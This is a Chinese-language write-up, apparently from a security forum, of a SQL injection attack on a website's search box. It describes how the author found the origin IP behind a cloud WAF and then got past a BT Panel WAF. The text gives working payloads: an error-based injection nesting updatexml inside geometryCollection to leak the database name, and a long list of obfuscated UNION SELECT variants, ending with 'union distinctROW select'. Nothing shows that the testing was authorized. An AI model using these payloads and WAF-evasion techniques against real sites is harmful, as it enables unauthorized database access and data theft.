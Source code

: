 **0x01 多重waf绕过**
----------------

注入点搜索框

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e06a90a6f6a06aa706eb7b04bafd9e56ac78385d.png)

单双引号进行测试  
看看是字符型的还是数字型的，发现是字符型![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-230da0627e1c9b15dea7d7a1ef13f5ca3d419d4e.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-277008c76c4e4188513b3d4917df2f9e30376f86.png)

准备上语句发现有宝塔waf+云waf

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-a5c0d126d6fe88f28639139be6dc5769eb4da5b5.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-03e900b162c307996186b3e3399373fe125ebc89.png)

**0x02 过云waf**

首先看看有无cdn节点

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-baebab6591dfa0d04771e81c2f09615fe32bfbf1.png)

全球ping

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-dac37e6e9a8862598777d424978469fe502358c1.png)

发现这两个没有回应真实ip，就去看看用fofa或者hunter来在真实ip，hunter上面显示183是云厂商肯定是云waf，不能用这个ip

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-d93781844d65e00c7dbc7fbb6907e45d6611b4aa.png)

之后在看fofa上面能不能找到真实ip

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-8b827a4021e2f1126542a1d3979dcdbe88e6b619.png)发现这个ip跟历史解析记录是同一个c段的

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-d590fa4440427a30e5af00378b65c50ac66925a0.png)

然后用拦截云waf的语句来试试，发现无云waf显示

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-df39918fe0de2363c75f281484f0f79bf8a8c2fa.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-b589fa9d3b5f49a9b36575a23ff6efbbfedb88bd.png)

**找云waf的几种方式**

`1.  通过全球ping``2.  找历史解析记录``3.  通过fofa或者hunter空间引擎来搜索``4.  通过历史解析记录扫c段`

**0x03 过宝塔waf**
---------------

**1.报错注入**
----------

首先判断出字符型的话，就得去测试’||||’ ‘or+or’的语句，但是我发现他这里只要是在两个or之间出现东西，就一定会触发宝塔waf

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7616169d3309922f6b855644f58cfc193aa5c0bc.png)

当时试了很多思路，发现可以’;%00方法，还有可以加--+注释符的，但是尝试之后只有--+可以正常回显

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-6878f9ac27cd2e11aff07797c91849015754c329.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7f1d889ca313f7083c22beae315b48c12d85c940.png)

其实这里最初的思路根本不是什么’||||’，这里是按照1’||1=1来测试

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-85bc9e465d94cf386d6a054bf4e1b92a68dd6ceb.png)

然后尝试想把1=1，后面这个1能不能换成报错函数之类的，发现直接被拦

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-cd92e96547338567e339d0b1f5d8f67b8df82f7e.png)

所以我猜测这个是不是有可能把mysql所有的报错函数都给拦了一下，尝试其他的报错函数看看

exp

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-82166e9e9d54a217f6bf216101ecb9ffa210e57b.png)

floor

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4c3bb56698094dcfde0d53ad22ceae1b43fdfbdb.png)

`例如：``Polygon，GeometryCollection，MultiPoint，MultiLineString``我发现这几个都没有过滤，可能就过滤了平常可见的报错函数`

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-02850e964912fced0d5ca9e11ea88616e4af1ba5.png)

既然这函数可以用，那我们就开始构造语句试试，正常的语句用不了，那我们就玩点不正常的

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-49372ecb6ef0e358797ac703d216e345c74ba020.png)

看看这函数怎么搞的，把里面的语句替换成1，看看哪里出了问题，发包，发现他这个1直接爆出来了

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-496c86e8e2ebe9a5b0a17abf540cee41204a6516.png)

尝试能不能select database()这样，把库名搞出来

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-94a039f6c8246b856720be3d633facc73ec40035.png)

发现还是不行  
可能是因为database()后面跟着--没有闭合的原因，加个||’来试试能不能闭合

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-901ef9dd498a571501cc760c55c37363929f25bb.png)

emmm，还是不行  
既然select database()不行，那就试试再套一层报错函数，看看能不能行

`Pyload：1'||1=geometryCollection(updatexml(1,concat(0x7e,database(),0x7e),1))--+`

发包

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-c1e3a167a6e228413100c4cc6fba3cdde27c8812.png)

哟西，果然能行，出库名了，成功绕过waf

**2.联合注入**
----------

直接'ordre by xx --+

正常判断出库名，17正常 18报错

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7b4ba6f596c105df45243c9ba5a6037d155b105b.png)

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-5b9ef7eea1cd60f6a644b5abe61c24c6bed7d5a2.png)

然后fuzz union select 函数，尝试太多截图就不放了，直接快进到最后一步

```php
/*!%55NiOn*/ /*!%53eLEct*/ %55nion(%53elect 1,2,3)-- - +union+distinct+select+ +union+distinctROW+select+ /**//*!12345UNION SELECT*//**/ /**//*!50000UNION SELECT*//**/ /**/UNION/**//*!50000SELECT*//**/ /*!50000UniON SeLeCt*/ union /*!50000%53elect*/ +#uNiOn+#sEleCt +#1q%0AuNiOn all#qa%0A#%0AsEleCt /*!%55NiOn*/ /*!%53eLEct*/ /*!u%6eion*/ /*!se%6cect*/ +un/**/ion+se/**/lect uni%0bon+se%0blect %2f**%2funion%2f**%2fselect union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A REVERSE(noinu)+REVERSE(tceles) /*--*/union/*--*/select/*--*/ union (/*!/**/ SeleCT */ 1,2,3) /*!union*/+/*!select*/ union+/*!select*/ /**/union/**/select/**/ /**/uNIon/**/sEleCt/**/ /**//*!union*//**//*!select*//**/ /*!uNIOn*/ /*!SelECt*/ +union+distinct+select+ +union+distinctROW+select+ +UnIOn%0d%0aSeleCt%0d%0a UNION/*&test=1*/SELECT/*&pwn=2*/ un?+un/**/ion+se/**/lect+ +UNunionION+SEselectLECT+ +uni%0bon+se%0blect+ %252f%252a*/union%252f%252a /select%252f%252a*/ /%2A%2A/union/%2A%2A/select/%2A%2A/ %2f**%2funion%2f**%2fselect%2f**%2f union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A /*!UnIoN*/SeLecT+  %55nion(%53elect)   union%20distinct%20select   union%20%64istinctRO%57%20select   union%2053elect   %23?%0auion%20?%23?%0aselect   %23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect   %55nion %53eLEct   u%6eion se%6cect   unio%6e %73elect   unio%6e%20%64istinc%74%20%73elect   uni%6fn distinct%52OW s%65lect
```

Pyload：

`union+distinctROW+select`

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7a6635aa3331cc1c92bf9cfe5c2aee4969e5d264.png)

开始构造，pyload如图，发包

![](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-eb48a58e8562d2cf9923a783b153ed2880b995a1.png)

成功绕过